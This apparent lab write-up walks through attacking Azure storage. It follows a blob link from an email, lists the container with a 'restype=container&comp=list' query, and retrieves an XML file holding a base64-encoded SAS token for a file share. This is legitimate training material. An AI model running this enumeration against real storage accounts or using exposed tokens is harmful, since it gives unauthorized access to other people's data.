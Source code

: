 # Attack Lab 26


```
− Gain access to a Storage Account by leveraging SAS Token by leveraging the information extracted from the inbox of Marie Williams.
− Read the Source Code of the Function App from the Azure Files and extract the connection string for Storage Account.
```

Try to access to the email link found on Marie email:

```
Dear Marie,

Your documents are uploaded and approved. You can find the documents here - https://billingprocessorstg.blob.core.windows.net/mariewilliams

In case of any changes, please upload the documents again and submit a new request.


Regards,
```
Web access:
```
<Error>
<Code>ResourceNotFound</Code>
<Message>The specified resource does not exist. RequestId:f0bab61d-501e-0012-22b5-fd1bc6000000 Time:2023-10-13T09:15:08.8791151Z</Message>
</Error>
```
With additional querystring parameters:

```
https://billingprocessorstg.blob.core.windows.net/mariewilliams?restype=container&comp=list
```
Response
```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<EnumerationResults ContainerName="https://billingprocessorstg.blob.core.windows.net/mariewilliams">
<Blobs>
<Blob>
<Name>mapped.xml</Name>
<Url>https://billingprocessorstg.blob.core.windows.net/mariewilliams/mapped.xml</Url>
<Properties>
<Last-Modified>Wed, 11 Oct 2023 11:20:39 GMT</Last-Modified>
<Etag>0x8DBCA4C199BB41B</Etag>
<Content-Length>411</Content-Length>
<Content-Type>text/xml</Content-Type>
<Content-Encoding/>
<Content-Language/>
<Content-MD5>1Rbf9T4TjgxZDumuVadM2w==</Content-MD5>
<Cache-Control/>
<BlobType>BlockBlob</BlobType>
<LeaseStatus>unlocked</LeaseStatus>
</Properties>
</Blob>
</Blobs>
<NextMarker/>
</EnumerationResults>
```
Mapped.xml for API endpoint:
``

https://billingprocessorstg.blob.core.windows.net/mariewilliams/mapped.xml
```
Response:
```
<FileShare>
<Name>billingprocessor9a71</Name>
<Url>https://billingprocessorstg.file.core.windows.net/billingprocessor9a71</Url>
<Properties>
<Content>P3N2PTIwMjItMTEtMDImc3M9ZiZzcnQ9c2NvJnNwPXJsJnNlPTIwMjQtMDItMjlUMjA6MTc6NDZaJnN0PTIwMjMtMTAtMDFUMTE6MTc6NDZaJnNwcj1odHRwcyZzaWc9Um41SWV5eE0zSVZ6ckRTNTFPOHlQYTB0WmY3QzZWOEFvUm81TE5ScllOayUzRA==</Content>
</Properties>
</FileShare>
```
